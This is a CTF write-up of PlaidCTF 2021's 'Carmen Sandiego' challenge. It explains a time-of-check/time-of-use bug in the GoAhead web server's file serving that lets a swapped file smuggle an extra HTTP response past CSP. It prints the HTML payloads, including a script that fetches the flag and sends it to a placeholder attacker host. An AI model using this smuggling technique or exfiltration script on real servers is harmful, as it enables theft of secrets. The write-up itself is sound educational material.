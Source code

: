 # PlaidCTF 2021 

## Carmen Sandiego

### Setup

![](./setup.png)

We were provided with the source of some services, a frontent utility that creates instances consisting of a victim (headless browser) and an IoT service. we somehow had to get the flag through the victim visiting the URL supplied by us. But to get the flag, we needed the admin cookie of the victim. If we could get XSS somehow on the same origin, we could also get the flag. However, there was a quite strict CSP that forbid script execution except for scripts with the correct nonce.

### 1. Season

The first season had an unintended solution where we could execute JavaScript by simply giving URLs that started with `javascript:...`
and it would be executed on the page that was open at the time, which conveniently was the index page of the IoT Hub.

### 2. Season

Season 2 fixed this mistake by only allowing http(s) urls and creating a new page.

The README.md file gave us a hint where to look: 
```
The intended solution uses a bug in `file.c` of GoAhead.  (Feel free to look for bugs elsewhere though!)
```

Looking throught the file, we noticed one thing:

```c
websWriteHeaders(wp, info.size, 0);

...

if (info.size > 0) {
    websSetBackgroundWriter(wp, fileWriteEvent);
} else {
    websDone(wp);
}

```
 
 
 ```c
 static void fileWriteEvent(Webs *wp)
{
   ...
    while ((len = websPageReadData(wp, buf, ME_GOAHEAD_LIMIT_BUFFER)) > 0) {
        ...
    }
    ...
}

 ```
  ```c
PUBLIC ssize websPageReadData(Webs *wp, char *buf, ssize nBytes)
{
    ...
    return websReadFile(wp->docfd, buf, nBytes);
}


 ```
 
 ```c
 PUBLIC ssize websReadFile(int fd, char *buf, ssize size)
{
    ...
    return read(fd, buf, (uint) size);
    ...
}
 ```
 
 There is a TOCTOU (Time-of-check to time-of-use) problem, the content length gets sent first, but that size is not used as a limit for the sending, so if we write to the file after the content length has been set, we can write more than the content length specified.
 
We further notice that HTTP/1.1 with `Connection: keep-alive` is being used. So could we just append more HTTP requests, kind of like with HTTP request smuggling, but with responses instead?

No better time to try than now, and sure enough, after some failed tries, chrome finally mistook one of our appended responses as another one. 

![](./success.png)

This was achieved by uploading a html payload like this for the page the victim is going to visit:

```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_prep"/> <!-- Debugging -->
        <Iframe src='./camone?0'></iframe>
        <Iframe src='./camone?1'></iframe>
        <Iframe src='./camone?2'></iframe>
        <Iframe src='./camone?3'></iframe>
        <Iframe src='./camone?4'></iframe>
        <Iframe src='./camone?5'></iframe>
        <Iframe src='./camone?6'></iframe>
        <Iframe src='./camone?7'></iframe>
        <img src="http://<your_machine>/end_of_prep"/> <!-- Debugging -->
    </body>
</html>
```

and uploading a payload for the file that is going to get replaced while it is being served.

Payload A
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_a"/> <!-- Debugging -->
        many AAAA...
        <img src="http://<your_machine>/end_of_cam_one_a"/> <!-- Debugging -->
    </body>
</html>
```


Payload B
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_b"/> <!-- Debugging -->
        fewer BBBB...
        <img src="http://<your_machine>/end_of_cam_one_b"/> <!-- Debugging -->
    </body>
</html> <!-- note that the new response has to start in a new tcp packet -->
HTTP/1.1 200 OK
Content-Length: ...
Connection: keep-alive
<html>
    <body>
        Hello World!
        <script>
            fetch("/cgi-bin/flag").then(r => r.text()).then(flag => fetch("http://<your_machine>/flag?" + flag))
        </script>
    </body>
</html>
...
```



While chrome is downloading the payload a for the first few iframes, we replace the file with payload B so that the server now sends more than it has announced in the content-length header. Chrome will only open a certain number of connections to the same origin, so by making many requests, the lower iframes would only start loading after the prior ones would finish and mistake our appended HTTP payload for the response.

The injected HTTP response contains a simple javascript payload extracting the flag. Because we have full control over the HTTP headers, we don't have to worry about CSP.

(The `<img .../>` were for debugging on the server and helped us to properly time the replacement of the payload)

This would give us the first flag of Season two. For the second flag, the service which we used to upload the files was changed to only allow more restricted input. We did not get the second flag.

While this was probably the intended way of solving this challenge, another team found [a different one by exploiting the renderer](https://ptr-yudai.hatenablog.com/entry/2021/04/19/140802) :o 





